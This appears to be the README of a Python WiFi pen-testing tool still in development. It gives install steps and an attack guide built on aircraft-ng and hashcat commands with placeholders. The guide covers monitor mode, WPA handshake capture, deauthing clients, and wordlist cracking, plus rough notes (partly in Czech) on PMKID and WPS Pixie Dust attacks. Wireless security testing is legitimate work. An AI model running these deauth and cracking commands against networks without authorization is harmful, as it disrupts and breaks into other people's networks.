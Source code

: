 # WiFighter
Easy-to-use WiFI pen-testing/scanning tool written in python

## Filip's Notes 
- AP scanning in progress


## Installation 

**Dependencies**
```c
sudo zypper in python3 aircrack-ng hashcat ...
```

**Creating python virtual enviroment**

Clone the project
```c
git clone https://github.com/FilipStruhar/WiFighter.git
```

Enter the project folder
```c
cd WiFighter
```

Create virtual enviroment
```c
python3 -m venv venv
```

Enter the virtual enviroment
```c
source venv/bin/activate
```

Install python modules (prettytable, tqdm) 
```c
pip3 install -r requirements.txt
```

Exit from virtual enviroment
```c
deactivate
```

Run the tool
```c
sudo ./wifighter.py
```


## WiFi Scan & Select

1. Fix channel 
2. Fix device busy
3. Client scanning
4. Encryption type


## Threat Hunt




## Attack mode

### 1. WPA/WPA2 Handshake Crack

**Aircrack guide**
- WPA, WEP Cracking
- WiFi Scanning
- AP Deauth (DoS)

**Monitor mode**

Set interface to monitor
```c
sudo airmon-ng start <INTERFACE>
```

Set interface to managed
```c
sudo airmon-ng stop <INTERFACE>mon
```

**Scan nearby WiFi's**

Scan all
```c
sudo airodump-ng <INTERFACE>mon
```

Scan 2.4GHz WiFi's
```c
sudo airodump-ng --band gb <ESSID> <INTERFACE>mon
```

Scan 5GHz WiFi's
```c
sudo airodump-ng --band a <ESSID> <INTERFACE>mon
```

**Capture handshake**

Listen for handshake of specified AP
```c
sudo airodump-ng -c <CHANNEL> --bssid <BSSID> -w <OUTPUT_FILE> <INTERFACE>mon
```

**Deauth clients (force handshake)**

Deauth all (broadcast)
```c
sudo aireplay-ng -0 1 -a <BSSID> <INTERFACE>mon
```

Deauth client
```c
sudo aireplay-ng -0 1 -a <BSSID> -c <CLIENT_MAC> <INTERFACE>mon
```

Verify captured handshake
```c
sudo aircrack-ng <HANDSHAKE>.cap 
```

**Crack handshake - aircrack**

```c
sudo aircrack-ng -w <WORDLIST> -b <TRAGET_AP_MAC> <HANDSHAKE>.cap
```

**Crack handshake - hashcat**

Convert captured handshake to hashcat format
```c
sudo aircrack-ng -J <OUTPUTFILE> <HANDSHAKE>.cap  
```

Crack with wordlist
```c
sudo hashcat -m 22000 <HANDSHAKE>.hccap <WORDLIST>
```


### 2. PMKID Attack (802.11r exploit)

**Hcxtools guide - TESTOVAT U TATY, TP-Link OneMesh feature**

- PMKID Capture
- Converting raw .pcapng captures to hashcat readable formats

**Installation**

```c
git clone https://github.com/ZerBea/hcxtools.git
cd hcxtools
```



### 3. WPS

**Reaver or Bully ??**
- Online WPS PIN Brute Force

**Pixie Dust**
- Offline WPS PIN crack
- Není to brute force (rychlejší)
- Využívá slabé kryptografie PINu (né každý router je náchylný)




